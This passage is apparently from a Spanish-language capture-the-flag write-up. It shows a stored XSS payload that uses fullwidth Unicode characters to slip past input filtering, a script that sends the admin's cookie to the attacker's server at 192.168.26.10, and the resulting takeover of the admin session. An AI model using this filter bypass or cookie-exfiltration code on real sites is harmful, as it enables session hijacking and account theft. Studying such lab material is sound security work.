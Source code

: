 Como bien hemos visto antes, el usuario **admin** está revisando los nuevos usuarios que se registran. Por lo tanto, registraremos un usuario que contenga un **XSS** que realicé una petición a un archivo alojado en nuestra máquina. Para ello, debemos de registrar un usuario con el siguiente contenido.

```html
＜script ｓｒｃ＝＂http：／／192．168．26．10／pwned．js＂＞＜／script＞
```

> Al registrar un usuario con los anteriores caracteres especiales (**Unicode**), evitaremos la comprobación que se realiza por caracteres como `>`, `<`, `"`, `/`, entre otros. Además, dado que se está aplicando una normalización de caracteres por detrás, finalmente estos serán convertidos a su forma original en **ASCII**.
{: .prompt-info }

Veremos como recibimos una petición al archivo `pwned.js`.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315181718.png>)

___
## Explotación
### XSS → Cookie Hijacking

El script `pwned.js` captura la cookie del usuario **admin** y la envía a nuestro servidor:

```js
let img = new Image()
img.src = "http://192.168.26.10/?cookie=" + document.cookie
```

Veremos que capturamos la cookie del administrador, por lo que podemos usarla para iniciar sesión como **admin**.

![](<../assets/images/posts/2025-03-16-tokenofhate/Pasted image 20250315181802.png>)

Estableceremos que nuestra cookie es la que acabamos de obtener, es decir la del usuario administrador. Veremos que conseguimos acceder a la sección del usuario administrador donde podemos generar **PDFs**.
